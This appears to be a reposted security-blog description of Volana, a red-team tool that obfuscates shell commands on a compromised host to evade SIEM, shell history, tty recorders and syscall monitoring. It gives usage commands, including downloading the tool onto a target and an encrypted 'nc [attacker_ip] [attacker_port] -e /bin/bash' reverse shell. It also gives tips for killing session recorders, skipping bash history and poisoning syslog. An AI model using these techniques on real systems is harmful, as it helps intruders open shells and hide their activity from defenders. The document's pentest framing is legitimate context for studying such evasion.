 ```yaml
---
title: "Volana - Shell Command Obfuscation To Avoid Detection Systems"
date: Wed, 19 Jun 2024 08:30:00 -0400
draft: false
type: posts
categories: 
- Exploitation,Infosec,Obfuscator,Pentest,Pentest Tool,Redteam,Shell Obfuscate,Volana
---
```

# Volana - Shell Command Obfuscation To Avoid Detection Systems

<br/>

<br/>
[![](https://blogger.googleusercontent.com/img/a/AVvXsEjwHywu1MIETxz4EH2PyiPK3380XzJ4D5Pwj4NR2FdQsjL_3SMMKX-5A78mReHbAjvUTK9DvzVK3ceDmge-ihPhaU7ur5A-5ylNRrDuEVRQKRM6D_xY67r8HslUuph9hiRL6tbYVhEERI063hVhsQr6FkEphP4PkjekNQUDFhCjiNmSaK08guKhfwfUxOrJ=s320)](https://blogger.googleusercontent.com/img/a/AVvXsEjwHywu1MIETxz4EH2PyiPK3380XzJ4D5Pwj4NR2FdQsjL_3SMMKX-5A78mReHbAjvUTK9DvzVK3ceDmge-ihPhaU7ur5A-5ylNRrDuEVRQKRM6D_xY67r8HslUuph9hiRL6tbYVhEERI063hVhsQr6FkEphP4PkjekNQUDFhCjiNmSaK08guKhfwfUxOrJ)

  

#### Shell command obfuscation to avoid SIEM/detection system

During pentest, an important aspect is to **be [stealth](https://www.kitploit.com/search/label/Stealth "stealth")**. For this reason you should **clear your tracks after your passage**. Nevertheless, many infrastructures log command and send them to a [SIEM](https://www.kitploit.com/search/label/Siem "SIEM") in a real time making the afterwards cleaning part alone useless.  
  
`volana` provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana executes for you). Like this you **clear your tracks DURING your passage**

Usage
-----

You need to get an interactive shell. (Find a way to spawn it, you are a hacker, it's your job ! [otherwise](https://github.com/ariary/volana#from-non-interactive-shell "otherwise")). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed

```
## Download it from github release## If you do not have internet access from compromised machine, find another waycurl -lO -L https://github.com/ariary/volana/releases/latest/download/volana## Execute it./volana## You are now under the radarvolana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cockyvolana » [command]
```

Keyword for volana console: \* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call) \* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `[encrypt](https://www.kitploit.com/search/label/Encrypt "encrypt")` and `decrypt` subcommand. Previously, you need to build `volana` with embedded [](https://www.kitploit.com/search/label/Encryption "🌒 Shell command obfuscation to avoid detection systems (5)")[encrypt](https://www.kitploit.com/search/label/Encrypt "encrypt")ion key.

**On attacker machine**

```
## Build volana with encryption keymake build.volana-with-encryption## Transfer it on TARGET (the unique detectable command)## [...]## Encrypt the command you want to stealthy execute## (Here a nc bindshell to obtain a interactive shell)volana encr "nc [attacker_ip] [attacker_port] -e /bin/bash">>> ENCRYPTED COMMAND
```

Copy encrypted command and executed it with your rce **on target machine**

```
./volana decr [encrypted_command]## Now you have a bindshell, spawn it to make it interactive and use volana usually to be stealth (./volana). + Don't forget to remove volana binary before leaving (cause decryption key can easily be retrieved from it)
```

**_Why not just hide command with `echo [command] | base64` ?_** And [decode](https://www.kitploit.com/search/label/Decode "decode") on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against systems that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

Detection
---------

Keep in mind that `volana` is not a miracle that will make you totally invisible. Its aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.

### Hide from

Only the `volana` launching command line will be catched. 🧠 **However, by adding a space** before executing it, the default bash behavior is to not save it

-   Detection systems that are based on history command output
-   Detection systems that are based on history files
-   `.bash_history`, ".zsh\_history" etc ..
-   Detection systems that are based on bash debug traps
-   Detection systems that are based on sudo built-in logging system
-   Detection systems tracing all processes syscall system-wide (eg `opensnoop`)
-   Terminal (tty) recorder (`script`, `screen -L`, [`sexonthebash`](https://github.com/ariary/sexonthebash "🌒 Shell command obfuscation to avoid detection systems (8)"), `ovh-ttyrec`, etc..)
-   Easy to detect & avoid: `pkill -9 script`
-   Not a common case
-   `screen` is a bit more difficult to avoid, however it does not register input (secret input: `stty -echo` => avoid)
-   Command detection Could be avoid with `volana` with encryption

### Visible for

-   Detection systems that have alert for unknown command (volana one)
-   Detection systems that are based on keylogger
-   Easy to avoid: copy/past commands
-   Not a common case
-   Detection systems that are based on syslog files (e.g. `/var/log/auth.log`)
-   Only for `sudo` or `su` commands
-   syslog file could be modified and thus be poisoned as you wish (e.g for _/var/log/auth.log_:`logger -p auth.info "No hacker is poisoning your syslog solution, don't worry"`)
-   Detection systems that are based on syscall (eg auditd,LKML/eBPF)
-   Difficult to analyze, could be make unreadable by making several diversion syscalls
-   Custom `LD_PRELOAD` injection to make log
-   Not a common case at all

Bug bounty
----------

Sorry for the clickbait title, but no money will be provided for contibutors. 🐛

Let me know if you have found: \* a way to detect `volana` \* a way to spy console that don't detect `volana` commands \* a way to avoid a detection system

[Report here](https://github.com/ariary/volana/issues/new/choose "Report here")

Credit
------

-   [8 ways to spy on console](https://github.com/annmuor/zn2021_8ways "8 ways to spy on console")
-   [moonwalk](https://github.com/mufeedvh/moonwalk "moonwalk"): similar tool that clear tracks AFTER passage

  
  

**[Download Volana](https://github.com/ariary/volana "Download Volana")**

[Source](http://www.kitploit.com/2024/06/volana-shell-command-obfuscation-to.html)
<br/>
---
